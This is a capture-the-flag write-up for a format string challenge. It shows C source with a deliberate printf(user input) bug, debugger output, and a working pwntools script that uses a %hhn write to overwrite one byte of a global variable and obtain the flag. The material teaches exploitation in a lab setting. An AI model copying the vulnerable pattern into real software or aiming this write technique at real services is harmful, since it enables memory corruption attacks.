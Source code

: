 # Format

The task:

>A generic format string challenge, but requiring a bit of finesse. Can you pull it off?
>
> nc challenges.ctfd.io 30266

We were given the source code of a binary running on ``challenges.ctfd.io:30266``:

```c
#include <stdio.h>
#include <stdint.h>

uint64_t num;

void vuln() {
	char buf[64];
	puts("Give me some text.");
	fgets(buf, sizeof(buf), stdin);
	printf("You typed ");
	printf(buf);
	printf("!\n");
}

/* You don't need to understand how this works
 *
 * In case you're curious, this loads the pointer guard from the TCB. This
 * value was chosen because it is randomized and can be accessed without
 * following any pointer chains in this object's memory. */
#define LOAD_SECRET(x) \
	__asm__ volatile ( \
		"mov %%fs:0x30, %0;" \
		: "=r" (x) \
	)

void check_num() {
	uint64_t goal;
	LOAD_SECRET(goal);
	__asm__ volatile (
		"mov $0x42, %b0;"
		: "+r" (goal)
	);
	if (num != goal) {
		puts("Nope, try again");
	} else {
		puts("Congrats! here's your flag");
		char flagbuf[64];
		FILE* f = fopen("./flag.txt", "r");
		fgets(flagbuf, sizeof(flagbuf), f);
		fclose(f);
		puts(flagbuf);
	}
}

int main() {
	setvbuf(stdout, NULL, _IONBF, 0);

	LOAD_SECRET(num);
	/* clear the low byte - that way there is no random chance of
	 * getting the flag without doing anything */
	__asm__ volatile (
		"mov $0, %b0;"
		: "+r" (num)
	);

	vuln();

	check_num();

	return 0;
}

```

The program's ``check_num`` function will always fail and we'll never get the flag unless we abuse the format string bug because:
* It takes a random number --> put it in ``num`` (using the ``LOAD_SECRET`` macro)
* Calling ``check_num``, loading the secret again but comparing it with the result of ``num+0x42`` (or, ``goal`` in the source code)
* Obviously ``num`` !== ``num+0x42`` so the program fails

Inside ``check_num``, the ``if (num != goal) {`` statement determines whether we're getting the flag or not.

After having a closer look at it in gdb, this is how it looks like:

```
0x0000000000401260 in check_num ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[──────────────────────────────────────────────────────────────────────────────────────────REGISTERS──────────────────────────────────────────────────────────────────────────────────────────]
*RAX  0x5c278a023d35d342
 RBX  0x0
 RCX  0x7ffff7b042c0 (__write_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x7ffff7dd3780 (_IO_stdfile_1_lock) ◂— 0x0
 RDI  0x1
 RSI  0x7ffff7dd26a3 (_IO_2_1_stdout_+131) ◂— 0xdd3780000000000a /* '\n' */
 R8   0x7ffff7fe9700 ◂— 0x7ffff7fe9700
 R9   0x12
 R10  0x25b
 R11  0x246
 R12  0x4010e0 (_start) ◂— endbr64
 R13  0x7fffffffe200 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x4012f0 (__libc_csu_init) ◂— endbr64
 RSP  0x7fffffffe0c0 ◂— 0x4141414141414141 ('AAAAAAAA')
*RIP  0x401260 (check_num+32) ◂— cmp    qword ptr [rip + 0x2e19], rax
[───────────────────────────────────────────────────────────────────────────────────────────DISASM────────────────────────────────────────────────────────────────────────────────────────────]
   0x401245 <check_num+5>      mov    rax, qword ptr fs:[0x28]
   0x40124e <check_num+14>     mov    qword ptr [rsp + 0x48], rax
   0x401253 <check_num+19>     xor    eax, eax
   0x401255 <check_num+21>     mov    rax, qword ptr fs:[0x30]
   0x40125e <check_num+30>     mov    al, 0x42
 ► 0x401260 <check_num+32>     cmp    qword ptr [rip + 0x2e19], rax <0x404080> 
 ```

The values of ``num`` and ``goal``

```
+pwndbg> x ($rip + 0x2e19)
0x404080 <num>: 0x5c278a023d35d300

+pwndbg> p/x $rax
$3 = 0x5c278a023d35d342
```

As can be seen above, they are almost identical. The only difference is the last byte. 

So, our goal here is to overwrite the least significant byte of ``num`` (located in the .bss section)
```
+pwndbg> info symbol 0x404080
num in section .bss of /tmp/format
```


## Solution

Shift the stack accordingly and use the ``hhn`` format specifier to overwrite only the least significant byte of ``num``

```py
from pwn import *

r = remote('challenges.ctfd.io', 30266)

payload =  b'%32x%33xQ'   # padding to reach 0x42 bytes
payload += b'%8$hhn|'     # writing to the 8th element on the stack (which is "num"'s address, below)
payload += p64(0x404080)  # .bss <num>

r.sendlineafter('text', payload)
r.recvuntil('flag')
print(r.recv().decode('utf-8'))
```

Output:
```
nactf{d0nt_pr1ntf_u54r_1nput_HoUaRUxuGq2lVSHM}
```
